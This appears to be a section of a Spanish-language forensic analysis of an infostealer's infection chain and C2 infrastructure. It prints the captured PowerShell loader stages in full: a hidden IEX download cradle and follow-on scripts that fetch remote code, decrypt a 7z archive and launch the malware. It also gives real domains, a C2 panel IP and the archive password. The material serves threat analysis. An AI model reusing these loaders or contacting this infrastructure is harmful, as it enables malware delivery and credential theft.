

# 04 — Cadena de infección e infraestructura C2

Reporte forense recibido al iniciar la investigación, con las respuestas exactas del servidor en cada etapa de la descarga.

## Fase 1 — Loader inicial (PowerShell)

Comando ejecutado en la víctima (típico de un ataque de ingeniería social / malvertising / documento malicioso que invoca PowerShell):

```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('https://dragonphoenixstar.cfd/file.php')"
```

Respuesta HTTP recibida y ejecutada en memoria vía `IEX` (Invoke-Expression):

```powershell
$ErrorActionPreference = 'SilentlyContinue';
$url = "https://sillygoosetoon.cfd/get.php";
$userAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36";
$headers = @{
    "User-Agent" = $userAgent;
    "Accept"     = "*/*"
};

try {
    $webClient = New-Object System.Net.WebClient;
    foreach ($key in $headers.Keys) {
        $webClient.Headers.Add($key, $headers[$key]);
    }
    $stage2Script = $webClient.DownloadString($url);
    Invoke-Expression $stage2Script;
} catch {
    Exit;
}
```

## Fase 2 — Descarga del contenedor cifrado (`get.php`)

Petición emitida por el Stage 1 hacia `https://sillygoosetoon.cfd/get.php`, con el mismo User-Agent y `Accept: */*`. El servidor valida esas cabeceras (filtra bots/escáneres obvios) antes de responder con la rutina de descarga real:

```powershell
$ErrorActionPreference = 'SilentlyContinue';
$zipUrl = "https://sillygoosetoon.cfd/download/archive.7z";
$pass = "ShahradR_Pass2026";
$destZip = "$env:TEMP\archive.7z";
$extractDir = "$env:TEMP\malware_extract";

$wc = New-Object System.Net.WebClient;
$wc.Headers.Add("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64)");
$wc.DownloadFile($zipUrl, $destZip);

if (Test-Path $destZip) {
    Expand-7Zip -ArchiveFileName $destZip -TargetPath $extractDir -Password $pass;
    Start-Process -FilePath "$extractDir\shahradr.exe";
}
```

## Fase 3 — Contenedor `.7z` cifrado

- **Archivo devuelto:** `archive.7z`, cifrado con contraseña embebida en el propio script (`ShahradR_Pass2026`) — técnica para dificultar el escaneo automático del archivo comprimido en tránsito (los antivirus de red no pueden inspeccionar el contenido sin la contraseña).
- **Ruta de extracción:** `%TEMP%\malware_extract\shahradr.exe`.
- **Característica de inflado:** el binario extraído pesa 126.5 MB por el relleno de baja entropía en `.reloc` (ver [`01-static-analysis.md`](01-static-analysis.md), corregido respecto a la hipótesis inicial de "bytes `0x00`").

## Fase 4 — Análisis estático y desempaquetado

Ver [`01-static-analysis.md`](01-static-analysis.md) y [`02-unpacking.md`](02-unpacking.md) para el detalle técnico completo.

## Fase 5 — Infraestructura C2 y marcador de infección

- **Servidor / panel C2:** `http://91.92.33.156/panel/pb-fire` — interfaz de control en habla rusa, usada para exfiltrar credenciales y cookies robadas por el stealer.
- **Marcador de infección (`.ok`):** el malware deja un archivo con extensión `.ok` en los directorios temporales de Windows (`%APPDATA%` / `%LOCALAPPDATA%`) a modo de mutex/checkpoint — evita volver a ejecutarse por duplicado en el mismo sistema y probablemente le indica al panel que ese host ya fue "registrado".

## Diagrama de infraestructura



Todos los indicadores concretos (dominios, IP, contraseña, hashes) están consolidados en [`../iocs.md`](../iocs.md).
